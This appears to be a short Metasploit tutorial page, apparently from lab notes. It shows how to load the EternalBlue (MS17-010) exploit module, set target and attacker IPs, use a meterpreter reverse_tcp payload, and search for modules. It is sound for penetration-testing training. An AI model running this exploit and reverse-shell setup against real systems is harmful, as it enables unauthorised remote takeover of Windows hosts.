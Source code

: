 ```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

Example output (important parameters):

```
RHOSTS   → Target IP
RPORT    → Target port (default 445)
PAYLOAD  → windows/x64/meterpreter/reverse_tcp
LHOST    → Attacker IP
LPORT    → Listening port
```

Set parameters:

```bash
set RHOSTS 10.10.165.39
set LHOST 10.10.44.70
```

## Parameter Reference

- **RHOSTS** → Target IP(s) or file (`file:/path/targets.txt`)
- **RPORT** → Target port
- **PAYLOAD** → Payload type (shell, meterpreter, etc.)
- **LHOST** → Attacker's IP
- **LPORT** → Listening port on attacker's machine
- **SESSION** → Session ID for post modules

Unset values:

```bash
unset PARAMETER
unset all
```

Global values:

```bash
setg PARAMETER VALUE
```

## Searching Modules

Search by keyword, CVE, type, or platform:

```bash
search ms17-010
search type:auxiliary telnet
```

Example output:

```
#  Name                                      Rank   Check  Description
-  ----                                      ----   -----  -----------
2  exploit/windows/smb/ms17_010_eternalblue  avg    Yes    SMB Remote Windows Kernel Pool Corruption
```
